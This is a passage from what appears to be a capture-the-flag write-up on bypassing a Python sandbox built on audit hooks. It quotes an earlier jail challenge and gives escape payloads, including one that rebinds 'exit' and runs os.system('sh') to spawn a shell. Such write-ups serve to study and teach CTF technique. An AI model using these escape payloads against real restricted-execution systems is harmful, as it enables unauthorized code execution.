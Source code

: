 The calculator thingy can be bypassed easily by just using a number at the start of our payload. We will see later, don't worry

### Solving process
It's not a first time audit hooks appear in CTFs. Tho there is a critical difference here. Let's simplify the jail further to compare it to **MyJail** from *NBCTF2023* (archived challenge can be found [here](https://github.com/salvatore-abello/pyjail/blob/main/NBCTF%202023/MyJail.py)) :
```python
from sys import addaudithook

def hook(*a): exit(0)
def dummy() : pass

expr = input("Math expression: ")
dummy.__code__ = compile(expr, "<code>", "eval")

addaudithook(hook)

print(dummy())
```

If we try to bypass this jail it's pretty easy. We can't circumvent the audit rules but **we can modify the sentence** 😈🔨👩‍⚖️ We just have to modify the ``hook`` function

```python
(exit:=lambda x:x), <full control>

# Examples
(exit:=lambda x:x),print("hacked >:)")
(exit:=lambda x:x),exec("import os;os.system('sh')")
```

Easy to do right ? But here is the challenge introduced by the challmaker. *We can't access the local variable ``exit`` and modify it !*

```python
def safe_eval(exit, code): # we are here at runtime and can do everything ...
    def hook(*a):
        exit(0)            # ... but here exit is added to hook at compile time
                           # so we can't modify it from the outside
    def dummy():
        pass
```

What can we do ?
- explore audithook's internals and "modify" ``hook`` ?
- explore Python's memory and "modify" ``hook`` ?
- access ``hook`` from "inside" instead of outside 👀

### Bypassing ``hook`` from the inside
Audithooks trigger at [certain events](https://docs.python.org/3/library/audit_events.html#audit-events). If we look at the ``import`` event it says
> `module`, `filename`, `sys.path`, `sys.meta_path`, `sys.path_hooks`
